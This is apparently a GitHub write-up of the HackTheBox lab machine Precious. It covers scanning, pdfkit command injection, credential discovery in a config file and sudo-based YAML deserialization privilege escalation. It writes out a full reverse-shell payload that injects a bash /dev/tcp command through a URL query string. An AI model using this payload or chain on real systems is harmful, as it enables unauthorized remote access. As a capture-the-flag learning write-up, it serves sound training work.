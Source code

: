# Precious.HTB-Write-Up
Write up report for the HackTheBox machine Precious.

-Initiated a service/network scan on the given HTB box with Nmap. `nmap -sV -sC 10.129.230.167`

![image](https://user-images.githubusercontent.com/61332852/226735722-c099909e-f7c7-4d18-a68b-b9c45b85dc47.png)


-Nmap shows that a HTTP (80) Port was open and an SSH(22) port as well. I first checked to see if there was any exploits pertaining to the services of the HTTP server that was hosting the website and as well as the SSH service running. I used the command `searchsploit` and as well searched online to double check that the results searchsploit was returning was accurate.  

![image](https://user-images.githubusercontent.com/61332852/226736215-366962c6-ee2b-488f-ad4f-17bad695c042.png)


-After seeing there was no obvious exploits to take advantage of the next step was browsing the website running. First, I added the IP to /etc/hosts file to actually access the website.   



The website consisted of an input box that took a URL as input and the website would output that URL as a PDF File. I began running Gobuster to see if there was anything other than what was given on the home page but returned no results of any other directories on the web server.   

After messing with the input box, I opened BurpSuite to see what the application was doing when inputting a URL. After inputting a couple different random websites, the application was returning nothing but a “Cannot load remote URL” message. Thus, I began to start my own python webserver on my localhost. Python3 -m http.server 80 

After doing so it had converted the webserver, I had spun up to a pdf file.  

I used exiftool to see if there was any information I can get out of behind the PDF file that was downloaded from the website. Which gave us the application that was converting the URL to PDF. 


I used the searchsploit command again here to see if there was anything it would find for ‘pdfkit v0.8.6’. It returned nothing as well so I went to google search to see if there were any vulnerabilities with the given application. Then found that it was vulnerable to command injection a type of injection vulnerability.     

Reading more of the vulnerability and what we can start to do to exploit it this is what I found. “An application could be vulnerable if it tries to render a URL that contains query string parameters with user input”. After using this information, we can modify the URL to take a command as input to see if the application will run the command.  
After grabbing a reverse shell command, I inserted it as a string within the URL http://10.10.14.66:8910/?name=#{'%20`bash -c 'exec bash -I &>/dev/tcp/10.10.14.66/4444 <&1'`'}. Thus, getting me in as the user “Ruby” within the webserver.  

Going through all the files and directories that were given I first went to the users home folder to see if the user flag was there but didn’t consist of anything. I then used ls -la to find something I don’t see usually which was a directory called ‘.bundle’ which I then found a config file consisting of another user’s password.  

I began to login as the user henry with the given password. Successfully getting us in. I first checked henrys home directory to check for any flags shown there. Then giving us our first flag.  

To start privilege escalation towards getting the root flag I first checked what permissions Henry had as root on the machine.  

After checking the file, I then researched if there were any vulnerabilities with the Yaml file that was given. Then later finding that the Yaml file was vulnerable to “Yaml Deserialization Attack” allowing us to run arbitrary code within the yaml file. We can now go look for an exploit to run in the dependency file to execute.
 

After running ‘sudo /usr/bin/ruby /opt/update_dependencies.rb’ we can now go and run ‘/bin/bash -p’ to see if get into root as the user.
  

Thus, going into roots home folder to retrieve the root flag of the machine.  
